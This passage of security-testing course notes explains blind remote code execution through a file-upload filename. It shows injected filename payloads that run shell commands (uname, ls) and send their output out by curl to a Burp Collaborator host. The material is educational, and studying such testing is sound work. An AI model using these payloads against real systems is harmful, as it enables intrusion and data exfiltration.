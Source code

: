 We send this out and hope for a hit. We poll for responses and see that we are getting a request sent to our Burp Collaborator. It comes from a user agent with cURL, which indicates that our command has executed.
![[Screenshot From 2025-03-11 17-03-23.png]]

To confirm, we can extract content from the website. One way to do this is by adding a subdomain in Burp Collaborator. We'll type in "test123" to confirm that the request is actually coming from the web server we're attacking and not some random IP on the internet.

We still want to make a cURL request, but instead of just sending a regular cURL request, we're also going to attach the results of our command as a DNS record. This means saying, "Hey, I want you to take the output of this command." In this case, we'll use "uname"   ( `filename="test123 $(curl $(uname) 1kmh59amqrfg17glhd9bawa56wcn0do2.oastify.com) .PNG"` )and tell it to reach whatever the output of this command is as the record under this domain.

We request it, go back, poll for it, and see another HTTP request come in. Looking at the results, it says "Linux," which is likely the result of our "$(uname)" command being attached to the DNS. This is a great technique when dealing with blind RCE.

By default, you should always try these cURL commands and have a server where you can monitor requests. This could be a Burp Collaborator, Netcat listener, or a subdomain you own. Having some way to monitor requests is crucial.

It doesn't have to be "uname." We can also send an "ls" command  ( `filename="test123 $(curl $(ls) 1kmh59amqrfg17glhd9bawa56wcn0do2.oastify.com) .PNG"` ). We poll again, and another request comes in. Looking at it, it says "uploads," meaning that the uploads folder exists.

We can verify further by trying "ls uploads"  ( `filename="test123 $(curl $(ls uploads) 1kmh59amqrfg17glhd9bawa56wcn0do2.oastify.com) .PNG"` ) . Depending on how the application works, this may or may not give an answer due to spacing within the `$(ls upload)` command. We try again, poll, and see a response: "test123.png," which was one of the first files we uploaded to the web server. This confirms that we are successfully executing commands.

Again, it's important to understand how these applications work. You want to test every single user input that has an output. There are many different attack scenarios that can come up. It all comes down to what you're testing for.

RCE, especially blind RCE, is very common, particularly if the application is processing file names—renaming them, moving them, or modifying them in some way. You always want to look for these vulnerabilities.

Again, they are very common, and understanding how to test for them properly is key to security testing.

---

# Transcript :

1
00:00:00,210 --> 00:00:06,150
But what about other vulnerabilities, I mentioned vulnerabilities like our CBS SRF, depending on how

2
00:00:06,150 --> 00:00:07,380
this application works.
